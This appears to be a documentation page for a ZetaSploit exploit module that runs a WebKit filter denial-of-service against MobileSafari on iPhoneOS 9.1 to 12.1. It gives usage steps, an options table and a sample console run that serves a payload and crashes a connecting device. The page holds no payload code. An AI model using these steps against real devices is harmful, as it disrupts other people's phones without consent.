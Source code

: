 # `exploit/iphoneos/mobile_safari_app/webkit_filter_dos`

## Description

iPhoneOS 9.1 till 12.1 MobileSafari.app WebKit Filter DoS.

## Verification Steps

1. Start ZetaSploit
2. Do `use exploit/iphoneos/mobile_safari_app/webkit_filter_dos`
3. Do: `set LHOST` to your local host
4. Do: `set LPORT` to your local port
5. Do: `run`

## Options

| Option    | Default Value         | Required | Description                |
|-----------|-----------------------|----------|----------------------------|
| `LHOST`   | `self.helper.getip()` | yes      | Local host.                |
| `LPORT`   | 80                    | yes      | Local port.                |
| `FOREVER` | no                    | no       | Start http server forever. |

**LHOST**

Variable that contains local host.

**LPORT**

Variable that contains local port.

**FOREVER**

Variable that contains type of http server.

## Scenarios

```
(zsf)> use exploit/iphoneos/mobile_safari_app/webkit_filter_dos
(zsf: exploit: mobile_safari_app/webkit_filter_dos)> show options
 
Module Options
==============
 
    Option     Value           Required    Description    
    ------     -----           --------    -----------    
    LHOST      192.168.1.95    yes         Local host.    
    LPORT      80              yes         Local port.
    FOREVER    no              no          Start http server forever.
 
(zsf: exploit: mobile_safari_app/webkit_filter_dos)> run
[*] Starting http server on port 80...
[*] Serving payload on http server...
[*] Listeting for connections...
[+] Connection from 192.168.1.55!
[*] Performing WebKit Filter DoS attack...
[+] WebKit Filter DoS attack completed!
(zsf: exploit: mobile_safari_app/webkit_filter_dos)>
```
